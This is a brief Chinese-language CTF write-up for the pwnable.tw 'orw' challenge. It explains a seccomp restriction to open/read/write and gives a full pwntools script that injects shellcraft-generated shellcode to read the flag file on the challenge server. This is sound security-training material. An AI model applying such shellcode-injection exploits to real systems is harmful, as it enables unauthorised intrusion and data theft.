


- `shellcraft`方法的使用



> 逻辑很简单,`shellcode`存在于`.bss`段上,写入`shellcode`,执行`shellcode`



> `orw_seccomp`对系统调用的函数做了限制,只能使用`sys_open,sys_read,sys_write`所以我们利用这三个函数直接读取flag

一种方法是手写汇编,然后通过`asm()`函数转换,难度比较大,另外一种就是我利用的这种,使用`pwntools`的`shellcraft`方法来生成`shellcode`

```python
from pwn import *
context.arch = 'i386'
context.log_level = 'debug'
#io = process('./orw')
io = remote('chall.pwnable.tw',10001)
#io = gdb.debug('./orw')
#shellcode = asm(shellcraft.sh())
shellcode = shellcraft.open('/home/orw/flag')+shellcraft.read('eax','esp',100)+shellcraft.write(1,'esp',100)
shellcode = asm(shellcode)
io.sendlineafter(b'Give my your shellcode:',shellcode)
io.interactive()
```

题目环境和本地环境可能版本有所不同,`shellcode`不一定能在本地运行